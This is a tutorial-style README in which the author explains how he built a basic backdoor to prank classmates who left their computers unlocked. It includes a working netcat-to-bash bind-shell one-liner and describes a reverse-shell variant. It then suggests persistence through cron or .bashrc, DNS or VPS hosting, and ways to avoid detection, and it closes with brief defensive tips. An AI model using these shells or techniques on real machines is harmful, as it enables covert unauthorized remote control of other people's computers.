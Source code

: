 ```yaml
---
title: How I've created a backdoor?
author: Lucas Marandat
date: 2019-04-30T00:00:00.000Z
excerpt: By explaining how I've created a basic backdoor, you'll understand how
  they work and how to protect yourself.
hero: images/hero.png
preview: images/demo.gif
---
```

## 🚀 Introduction

### Disclaimer

Any actions and or activities related to the material contained within this repository are solely your responsibility. The misuse of the information on this website can result in criminal charges brought against the persons in question. The author will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this repository to break the law.

### Definition

A backdoor is a typically covert method of bypassing normal authentication to usually remote access to a computer.

### Why!?

I’ve always been interested in how things work. In my IT school, every time someone left his computer, he should have lock it. Why? Because an unlocked computer is the best way to be hacked. So, to make sure new students lock their computer, we usually “script” the unlocked computer to remind him next time to lock it.

(A “script” is usually a small bash code like alias ls=reboot to prank someone)

In many cases, we (teaching assistants) don’t always have time to write an efficient script (an alias is sometimes not enough). To solve this, I’ve 2 solutions :

1. Make a remote script that can be quickly “cloned” and launched.
2. Make a backdoor and script them remotely.

As you guess it, I’ve chosen the funniest one 🙃

## ⏰ Coding time!

To begin with, I've started by the quickest and the easiest way to create my backdoor. So let's write some `bash` code!

### Version 1 ([code here](https://github.com/lucasmrdt/how-i-created-a-backdoor/tree/master/basic-backdoor))

```shell
mkfifo FIFO
nc -l -p 8080 2> /dev/null < FIFO | bash > FIFO 2>&1
```

#### That's it! Let's go into the details :

![version 1 diagram](images/diagram-version-1.0.jpg "version 1 diagram")

Our backdoor is just a server that listens on port **8080** created by `nc -l -p 8080`. The server is hosted on the client-side (the target is the student in my case). This server takes a "bash command" (eg.  `echo "test"` ) as request and answers the output of this one (eg. `test` ).

1. We use [](https://en.wikipedia.org/wiki/Named_pipe)[unix pipeline](https://en.wikipedia.org/wiki/Pipeline_(Unix)) ("|") to redirect the "request payload" (the command sent by me) to the "bash" program.
2. We use [named pipe](https://en.wikipedia.org/wiki/Named_pipe)  ("FIFO") to redirect the output of "bash" program to the client response.

#### Limitations :

1. ✅ To use this backdoor we must use the same network as the victim. So you can't use this backdoor at your home. (that's not our goal)
2. 🚫 Many computers use firewalls to restrain requests of unknown computers. **Almost all IT students running Fedora 28 have this firewall enabled, so we're stuck to the same point...**

### Version 2 - How can we solve the "Limitation n°2"? ([code here](https://github.com/lucasmrdt/how-i-created-a-backdoor/tree/master/advanced-backdoor))

What if we exchange our roles? The firewall forbids our request (because we're not a known computer) but can it forbids the victim to request someone? Of course not, overwise you could never reach "google.fr" 👌🏻

To explain to you what I mean by "exchange our roles" let's look at this diagram below :

![version 2 diagram](images/diagram-version-2.0.jpg "version 2 diagram")

#### Step by step how this implementation works :

1. The victim tries to connect to the server launched by me.
2. When the connection is completed, me (as the server) send it the command to execute (eg.  `echo "test"` ).
3. The victim sends me back the response.
4. And so on...

#### Limitations?

No hard limitations, this schema is a basic client-server communication but instead of sending payload the client also executes some commands.

#### Demo:

![demo](images/demo.0.gif "demo")

#### Going deeper:

* What if your backdoor-server is not launched when the backdoor-client request it? Is your backdoor-client should stop? (Of course not...)
* Is your backdoor request an IP or instead use a DNS to be more flexible? ([maybe this could help you](https://www.freenom.com/fr/index.html))
* Can we host our backdoor-server on a VPS instead of our computer? ([here 😉](https://aws.amazon.com/fr/ec2/))
* How can we make our backdoor-client persisting during the time (eg. when victim reboots his computer)? ([here](https://fr.wikipedia.org/wiki/Cron) and [here too](https://unix.stackexchange.com/questions/129143/what-is-the-purpose-of-bashrc-and-how-does-it-work))
* How can the backdoor-client be almost undetectable? (name, programming language, ...)

## 😱 How can I protect myself?

* Lock your computer. 😇
* Be careful of what you download on the internet.
* Use efficient anti-virus.
* Implement a [Zero Trust Architecture](https://www.paloaltonetworks.com/cyberpedia/what-is-a-zero-trust-architecture)

## 📦 Source code [here](https://github.com/lucasmrdt/how-i-created-a-backdoor)